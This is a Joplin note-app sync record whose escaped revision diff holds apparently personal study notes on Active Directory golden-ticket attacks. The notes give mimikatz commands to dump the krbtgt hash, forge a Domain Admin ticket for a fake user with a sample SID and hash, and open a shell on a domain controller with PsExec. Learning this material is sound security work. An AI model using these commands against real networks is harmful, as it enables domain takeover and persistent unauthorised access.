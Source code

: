 id: 853b2e7023db4163a6a48f9d71771f47
parent_id: 
item_type: 1
item_id: 0bf89d6ed179444eb7fa4a913d5a9248
item_updated_time: 1646016694884
title_diff: "[{\"diffs\":[[1,\"21e6d72f57e74d579fd78d0a2c478cc4\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 21e6d72f57e74d579fd78d0a2c478cc4\\\r\\\nparent_id: 9ba90d0fce4d40bea65392fdd18986e9\\\r\\\nitem_type: 1\\\r\\\nitem_id: 8ceefc0c650f4adbb0c0023984623b15\\\r\\\nitem_updated_time: 1643596975170\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"specific persistence\\\\\\\"],[1,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\n# Golden Tickets\\\\\\\\\\\\\n\\\\\\\\\\\\\nIf we are able to get the krbtgt password hash, we can create our own 'self-made' custom TGTs (golden tickets)\\\\\\\\\\\\\n\\\\\\\\\\\\\nE.g. we can create a TGT stating a non-privileged user is actually a member of the Domain Admins group\\\\\\\\\\\\\n\\\\\\\\\\\\\n![ab79b20e211fab5caae0a0e31a4e568c.png](:/115e2884e2c94f51980d5dd06780dd49)\\\\\\\\\\\\\n\\\\\\\\\\\\\nIn mimikatz (without admin privilege)\\\\\\\\\\\\\n\\\\\\\\\\\\\n> privilege::debug\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> lsadump::lsa /patch\\\\\\\\\\\\\n\\\\\\\\\\\\\n![511a148ae8355b0fd2e6189df8ed47d8.png](:/5bf844bdacbe4b35b6a823ee7a68af41)\\\\\\\\\\\\\n\\\\\\\\\\\\\nOnce done with obtaining the krbtgt hash, we create the golden ticket for the user we want to have it\\\\\\\\\\\\\n\\\\\\\\\\\\\n> kerberos::purge\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> whoami /user # Get SID; Actually shown in Domain record during lsadump::lsa (shown above)\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> misc::cmd # to allow cmd.exe to be executed\\\\\\\\\\\\\n\\\\\\\\\\\\\ntake note of the User ID and Group ID it is in the admin groups\\\\\\\\\\\\\n\\\\\\\\\\\\\nThen use PsExec\\\\\\\\\\\\\n\\\\\\\\\\\\\n> pxexec.exe \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\dc01 cmd.exe\\\\\\\\\\\\\n\\\\\\\\\\\\\n![d71c5b92c386c9d7123f95ac1774d0cf.png](:/6d68a47fc3a0446a91ec14e0916b7728)\\\\\\\"]],\\\\\\\"start1\\\\\\\":110,\\\\\\\"start2\\\\\\\":110,\\\\\\\"length1\\\\\\\":20,\\\\\\\"length2\\\\\\\":1094}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-31T02:43:37.344Z\\\r\\\ncreated_time: 2022-01-31T02:43:37.344Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1685}]"
metadata_diff: {"new":{"id":"0bf89d6ed179444eb7fa4a913d5a9248","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016694870,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.147Z
created_time: 2022-02-28T02:54:22.147Z
type_: 13